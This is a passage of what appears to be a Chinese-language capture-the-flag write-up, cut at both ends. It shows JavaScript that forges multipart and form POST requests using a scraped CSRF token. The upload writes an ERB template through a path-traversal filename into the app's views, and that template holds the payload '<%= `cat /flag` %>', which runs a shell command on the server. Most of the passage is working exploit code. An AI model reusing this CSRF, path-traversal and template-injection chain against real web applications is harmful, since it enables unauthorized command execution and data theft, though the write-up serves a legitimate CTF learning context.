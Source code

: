 ```html
\x0d\x0a\
de1ta\x0d\x0a\
-----------------------------13025814701038468772945051835\x0d\x0a\
Content-Disposition: form-data; name=\"authenticity_token\"\x0d\x0a\
\x0d\x0a\
"+test+"\x0d\x0a\
-----------------------------13025814701038468772945051835\x0d\x0a\
Content-Disposition: form-data; name=\"commit\"\x0d\x0a\
\x0d\x0a\
submit\x0d\x0a\
-----------------------------13025814701038468772945051835\x0d\x0a\
Content-Disposition: form-data; name=\"utf8\"\x0d\x0a\
\x0d\x0a\
✓\x0d\x0a\
-----------------------------13025814701038468772945051835--";
  $.ajax({
   url: url,
   type:"POST",
   headers: {
       "Content-Type": "multipart/form-data; boundary=---------------------------13025814701038468772945051835",
       "Upgrade-Insecure-Requests":"1"
   },
   data:data,
   contentType:false,
   success:function(res){
   },
   error:function(err){
   }
  })
 }
 for(var i=1;i<2;i++)
 {
    upload(i);
 }
</script>
```
文件内容为
```
<%= `cat /flag` %>
```
文件名为
```
../../app/views/home/de1taxishir.erbss.erb
```

推送文件到我的uid下的代码为：
```html
<script type="text/javascript" charset="utf-8" src="http://code.jquery.com/jquery-1.11.1.min.js"></script>
<script>
function go(fffid){
  var test=$('meta').eq(1).attr("content");
  console.log(test);
  var params = {utf8:"\xE2\x9C\x93",authenticity_token:test,uid:2,fid:fffid,commit:"submit"};
  var url = '/file/Alpha_test';
$.ajax({
   url : url,
   type : "POST",
   data : params,
   success : function(result) {
   },
   error:function(result){
   }
```